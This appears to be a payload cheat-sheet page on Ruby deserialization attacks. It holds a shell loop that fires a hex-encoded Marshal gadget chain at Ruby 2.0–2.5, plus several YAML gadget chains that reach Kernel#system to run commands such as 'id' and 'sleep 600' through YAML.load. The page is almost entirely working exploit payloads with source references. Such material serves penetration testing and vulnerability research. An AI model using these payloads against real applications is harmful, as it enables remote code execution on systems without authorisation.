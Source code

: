 # Ruby Deserialization

> Ruby deserialization is the process of converting serialized data back into Ruby objects, often using formats like YAML, Marshal, or JSON. Ruby's Marshal module, for instance, is commonly used for this, as it can serialize and deserialize complex Ruby objects.


## Summary

* [Marshal Deserialization](#marshal-deserialization)
* [YAML Deserialization](#yaml-deserialization)
* [References](#references)


## Marshal Deserialization

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```


## YAML Deserialization

Vulnerable code

```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:

```yaml
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```


## References

- [Ruby 2.X Universal RCE Deserialization Gadget Chain - Luke Jahnke - November 8, 2018](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - Etienne Stalmans (@_staaldraad) - March 2, 2019](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab - 2024](https://pentesterlab.com/exercises/ruby_ugadget/course)
- [Universal RCE with Ruby YAML.load (versions > 2.7) - Etienne Stalmans (@_staaldraad) - January 9, 2021](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
- [Blind Remote Code Execution through YAML Deserialization - Colin McQueen - June 9, 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)